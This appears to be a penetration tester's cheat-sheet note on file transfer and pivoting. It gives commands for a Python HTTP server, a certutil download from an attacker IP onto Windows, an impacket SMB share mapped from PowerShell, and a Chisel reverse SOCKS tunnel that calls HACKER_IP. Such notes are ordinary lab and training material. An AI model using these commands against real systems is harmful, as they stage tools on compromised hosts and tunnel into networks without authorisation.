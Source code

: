 ## Python:
```Shell
$ python3 -m http.server PORT
```

## Certutil
Windows
```powershell
PS > certutil -urlcache -f http://IP:PORT/file file_local
```
Could be used with [[Windows Privesc.#RunasCs.exe]] 
## SMB:

Server:
```Shell
sudo impacket-smbserver -smb2support SHARE_NAME RUN_DIR
sudo impacket-smbserver -smb2support share $(pwd)
```
Client:
```powershell
> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
```

## Chisel

Server (Linux):
```shell
$ chisel server --reverse --socks5 -p 8001
```
Client (Windows)
```powershell
> .\chisel.exe client HACKER_IP:PORT R:socks
```

Can be used with `curl`:
```shell
curl -x socks5://127.0.0.1:LPORT https://127.0.0.1:RPORT
```

## LDAP

Server:
```Shell
java -cp .:/opt/unboundid-ldapsdk-7.0.0/unboundid-ldapsdk.jar Server
```